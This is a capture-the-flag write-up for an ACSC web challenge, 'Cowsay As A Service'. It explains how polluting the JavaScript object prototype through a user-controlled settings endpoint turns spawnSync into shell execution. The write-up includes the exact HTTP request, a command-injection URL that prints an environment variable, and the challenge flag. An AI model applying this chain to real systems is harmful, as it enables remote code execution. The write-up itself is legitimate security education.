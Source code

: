 ```yaml
---
description: Prototype pollution leads to RCE
---
```


# Cowsay As A Service

## Description

Enjoy your cowsay life with our Cowsay as a Service!  
You can spawn your private instance from https://cowsay-as-a-service.chal.acsc.asia/.  
  
Notice: Please do not spawn too many instances since our server resource is limited.  
You can check the source code and run it in your local machine before do that.  
Each instances are alive only for 5 minutes.  
But don't worry! You can spawn again even if your instance expired.  


`https://cowsay-as-a-service.chal.acsc.asia/`

{% file src="../../.gitbook/assets/cowsay-as-a-service.tar.gz\_b1f19fe170867369eb5297d2b9d4cc29.gz" caption="Challenge Files" %}

## Solution

The `/usr/games/cowsay` game is run from `child_process.spawnSync`.

```javascript
router.get('/cowsay', (ctx, next) => {
  const setting = settings[ctx.state.user];
  const color = setting?.color || '#000000';

  let cowsay = '';
  if (ctx.request.query.say) {
    const result = child_process.spawnSync('/usr/games/cowsay', [ctx.request.query.say], { timeout: 500 });
    cowsay = result.stdout.toString();
  }
```

The settings endpoint sets the settings for `ctx.state.user`, which is also equal to the `username` cookie. The setting name is also user-controlled.

```javascript
router.post('/setting/:name', (ctx, next) => {
  if (!settings[ctx.state.user]) {
    settings[ctx.state.user] = {};
  }
  const setting = settings[ctx.state.user];
  setting[ctx.params.name] = ctx.request.body.value;
  ctx.redirect('/cowsay');
});
```

This allows us to perform prototype pollution. I used `__proto__` as the username, which will set settings for `{}.__proto__`. Then, we can use `shell` as the setting name to set `shell=true` for all objects.

```http
POST /setting/shell HTTP/1.1
Host: localhost:3000

...

{
    "value": true
}
```

This makes the command run within a shell, allowing us to perform command injection:

`http://cowsay-nodes.chal.acsc.asia:64280/cowsay?say=test;echo%20$FLAG`

This will output the `FLAG` environment variable.

![](../../.gitbook/assets/813db7ee6ba24656a515c09f5a719ebc.png)

`ACSC{(oo)<Moooooooo_B09DRWWCSX!}`

